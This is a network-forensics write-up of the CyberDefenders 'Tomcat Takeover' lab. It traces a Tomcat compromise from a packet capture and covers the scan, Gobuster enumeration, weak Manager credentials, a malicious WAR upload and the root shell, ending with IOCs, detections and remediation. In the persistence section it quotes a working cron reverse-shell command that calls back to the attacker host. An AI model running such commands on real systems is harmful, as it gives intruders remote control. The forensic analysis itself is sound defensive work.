# Tomcat Takeover - Network Forensics Investigation


## Overview

This write-up documents a network-forensics investigation into the compromise of an Apache Tomcat web server. The supplied PCAP shows a complete intrusion sequence: active port scanning, web-content enumeration, discovery of the Tomcat Manager interface, password guessing, authenticated deployment of a malicious WAR archive, reverse-shell execution as `root`, and cron-based persistence.

The investigation was performed from the evidence outward. Each conclusion below is tied to a Wireshark display filter, an HTTP exchange, or a reconstructed TCP stream.

> All timeline entries in this write-up use UTC. IP geolocation is supporting context, not proof of an attacker's physical location.

## Full Investigation Report

- [Read the complete PDF report](./TomcatTakeover-Network-Forensics-Report.pdf)
- [Download the editable Word report](./TomcatTakeover-Network-Forensics-Report.docx)

## Investigation Objectives

- Identify the source of the scanning activity.
- Determine the apparent country associated with the source IP.
- Identify the port exposing the Tomcat administrative interface.
- Identify the directory-enumeration tool and the discovered admin path.
- Recover the credentials accepted by Tomcat Manager.
- Identify the uploaded malicious archive.
- Recover the reverse-shell callback destination.
- Reconstruct post-exploitation and persistence activity.

## Environment Summary

| Item | Value |
|---|---|
| Attacker IP | `14.0.0.120` |
| Victim server | `10.0.0.112` |
| Apparent source country | China |
| Admin service | Apache Tomcat Manager |
| Admin port | `8080/TCP` |
| Tomcat version observed | `7.0.88` |
| Enumeration tool | Gobuster `3.6` |
| Admin path | `/manager` |
| Accepted credentials | `admin:tomcat` |
| Uploaded archive | `JXQOZY.war` |
| Callback destination | `14.0.0.120:443` |
| Execution context | `root` |

## 1. PCAP Triage

The capture contains `21,070` packets and spans approximately `870.631` seconds, or `14 minutes 30.631 seconds`. The capture properties also provide hashes that can be used to preserve evidence integrity.



The protocol hierarchy shows that nearly all captured traffic is TCP. HTTP is especially important because the Tomcat requests, Basic Authentication header, multipart upload, and server responses are visible in clear text.



The IPv4 endpoint view highlights two dominant systems: `14.0.0.120` and `10.0.0.112`. Packet volume alone does not identify an attacker, so their behavior must be examined next.



## 2. Identifying the Scanning Host

### Analysis filter

```wireshark
tcp.flags.syn == 1 && tcp.flags.ack == 0 && ip.dst == 10.0.0.112
```

This filter isolates initial TCP connection attempts directed at the server. The source `14.0.0.120` sends SYN packets to many destination ports within a very short period. That pattern is consistent with automated port scanning rather than normal application use.



**Finding:** The scanning source is `14.0.0.120`.

## 3. Source IP Geolocation

An external IP lookup associates `14.0.0.120` with Guangzhou, Guangdong, China.



**Finding:** The apparent source country is `China`.

Geolocation describes the registered or observed network location. It does not prove the attacker's physical location because VPNs, proxies, cloud systems, and compromised hosts can obscure origin.

## 4. Identifying the Tomcat Admin Port

### Analysis filter

```wireshark
tcp.flags.syn == 1 && tcp.flags.ack == 1 && ip.src == 10.0.0.112 && ip.dst == 14.0.0.120
```

A SYN/ACK from the server confirms that a TCP port accepted the connection attempt. The server repeatedly responds from source port `8080`, and later HTTP traffic on that port exposes the Tomcat interface.



**Finding:** The web server admin panel is accessible over `8080/TCP`.

## 5. Directory Enumeration

### Useful filter

```wireshark
ip.src == 14.0.0.120 && tcp.dstport == 8080 && http.request
```

Following the relevant HTTP stream reveals rapid requests for many paths. The `User-Agent` header explicitly identifies `gobuster/3.6`, confirming automated web-content enumeration. The error pages also disclose `Apache Tomcat/7.0.88`.



**Finding:** The enumeration tool is `Gobuster`.

## 6. Discovery of the Manager Interface

The request to `/manager` receives an HTTP `302` redirect to `/manager/`, followed by another redirect to `/manager/html`. A redirect is not a failure: it confirms that the application recognizes the path and is directing the client to its canonical location.



**Finding:** The discovered administrative directory is `/manager`.

## 7. Successful Authentication

### Analysis filter

```wireshark
ip.src == 14.0.0.120 && tcp.dstport == 8080 && http.authorization
```

HTTP Basic Authentication places a Base64-encoded `username:password` value in the `Authorization` header. Base64 is encoding, not encryption. Wireshark decodes the header and displays the credentials as `admin:tomcat`. The subsequent protected resource requests and Manager response show that the credentials were accepted.



**Finding:** The accepted credentials are `admin:tomcat`.

## 8. Malicious WAR Deployment

The authenticated client sends a multipart POST request to `/manager/html/upload`. The form data contains `filename="JXQOZY.war"` and a Java web archive beginning with the ZIP signature `PK`. The server responds with HTTP `200 OK`, supporting successful deployment.



**Finding:** The malicious archive is `JXQOZY.war`.

## 9. Reverse Shell and Persistence

Following the post-upload TCP stream exposes interactive shell activity. The command `whoami` returns `root`, showing that the deployed payload executed with root privileges. The attacker changes to `/tmp` and installs a cron entry that launches Bash and connects to `14.0.0.120` on TCP port `443` every minute.

```bash
* * * * * /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'
```



**Finding:** The callback destination is `14.0.0.120:443`.

The use of port `443` does not prove HTTPS. The stream shows a raw interactive shell using a commonly allowed outbound port, which can help conceal command-and-control traffic.

## Reconstructed Attack Timeline

| Time UTC | Activity | Evidence |
|---|---|---|
| 18:18:52 | Active TCP port scan against `10.0.0.112` | Rapid SYN packets from `14.0.0.120` to many ports |
| 18:19:33 | Web-content enumeration begins | `User-Agent: gobuster/3.6` |
| 18:19:57 | Tomcat Manager path discovered | `/manager` redirects to `/manager/html` |
| 18:20:05-18:20:24 | Password guessing and authenticated Manager access | Multiple Basic Auth requests; accepted `admin:tomcat` |
| 18:22:14 | Malicious application uploaded | POST of `JXQOZY.war` to Manager upload endpoint |
| 18:22:30 | Reverse shell activity observed | `whoami` returns `root` |
| 18:22:38 onward | Persistence established and verified | Cron entry calls back to `14.0.0.120:443` every minute |

## Attack Chain

The following diagram summarizes the full compromise and shows the change in connection direction when the victim initiates the reverse-shell callback.



1. `14.0.0.120` scanned multiple TCP ports on `10.0.0.112`.
2. The scan identified an HTTP service on port `8080`.
3. Gobuster enumerated web paths and discovered `/manager`.
4. The attacker guessed credentials until `admin:tomcat` was accepted.
5. Authenticated access to Tomcat Manager enabled WAR deployment.
6. `JXQOZY.war` established command execution on the server.
7. The resulting shell ran as `root`.
8. A cron job created a recurring reverse-shell callback to `14.0.0.120:443`.

## Indicators of Compromise

| Type | Indicator |
|---|---|
| Attacker IP | `14.0.0.120` |
| Victim IP | `10.0.0.112` |
| Service | `8080/TCP` |
| C2 destination | `14.0.0.120:443` |
| Admin path | `/manager` and `/manager/html` |
| User agent | `gobuster/3.6` |
| Credentials | `admin:tomcat` |
| Malicious file | `JXQOZY.war` |
| Persistence | Cron entry using `/dev/tcp/14.0.0.120/443` |

## MITRE ATT&CK Mapping

| Tactic | Technique | Evidence |
|---|---|---|
| Discovery | `T1046 - Network Service Discovery` | Multi-port SYN scan against the server |
| Credential Access | `T1110.001 - Password Guessing` | Repeated Basic Authentication attempts |
| Initial Access | `T1078 - Valid Accounts` | Accepted Tomcat Manager credentials |
| Persistence | `T1505.003 - Web Shell` | Malicious WAR deployed through Tomcat Manager |
| Execution | `T1059.004 - Unix Shell` | Interactive Bash commands in the TCP stream |
| Command and Control | `T1095 - Non-Application Layer Protocol` | Raw reverse-shell traffic to TCP 443 |
| Command and Control | `T1571 - Non-Standard Port` | Interactive shell traffic using a port normally associated with HTTPS |
| Persistence | `T1053.003 - Cron` | Every-minute reverse-shell cron entry |

## Detection Opportunities

- Alert on one source sending SYN packets to many server ports in a short interval.
- Detect high-rate HTTP requests with user agents associated with enumeration tools.
- Monitor access to `/manager`, `/manager/html`, and `/manager/html/upload`.
- Alert on repeated HTTP `401` responses followed by successful Manager access.
- Avoid exposing HTTP Basic credentials over clear-text HTTP; monitor decoded credentials only in authorized investigations.
- Detect multipart uploads of `.war` files to Tomcat Manager.
- Inspect outbound connections from web servers, especially raw TCP sessions on port `443`.
- Alert when a web-service process spawns a shell or executes `whoami`, `crontab`, or `/dev/tcp` redirections.
- Monitor changes to root's crontab and recurring connections at one-minute intervals.

## Remediation Recommendations

1. Isolate the server and preserve the PCAP, Tomcat logs, authentication logs, deployed applications, process data, and cron configuration.
2. Remove the malicious WAR only after evidence collection and rebuild the host from a trusted image.
3. Rotate Tomcat Manager credentials and any secrets accessible to the compromised service account.
4. Restrict Tomcat Manager to a dedicated administrative network or VPN.
5. Disable unused Manager applications and remove default or weak accounts.
6. Place Tomcat behind HTTPS and avoid Basic Authentication over clear-text HTTP.
7. Run Tomcat as a dedicated unprivileged account instead of `root`.
8. Apply supported Tomcat and operating-system security updates.
9. Restrict outbound traffic from application servers to required destinations and protocols.
10. Review cron entries, startup scripts, systemd units, web roots, and temporary directories for persistence.

## Conclusion

The PCAP confirms a successful compromise of the Tomcat server at `10.0.0.112`. The source `14.0.0.120` scanned the host, enumerated the web service with Gobuster, discovered Tomcat Manager, authenticated with `admin:tomcat`, and uploaded `JXQOZY.war`. The deployed payload produced a root shell and established recurring cron-based callbacks to `14.0.0.120:443`.

The incident demonstrates how an exposed administrative interface, weak credentials, clear-text HTTP, and excessive service privileges can combine into full system compromise.

## References

- [CyberDefenders - Tomcat Takeover Walkthrough](https://cyberdefenders.org/walkthroughs/tomcat-takeover/)
- [Apache Tomcat 7 Manager App HOW-TO](https://tomcat.apache.org/tomcat-7.0-doc/manager-howto.html)
- [Gobuster](https://github.com/OJ/gobuster)
- [MITRE ATT&CK Enterprise Techniques](https://attack.mitre.org/techniques/enterprise/)

---

**Author:** Alaa Zahra  
**Track:** SOC Analyst and Network Forensics  
**Platform:** CyberDefenders
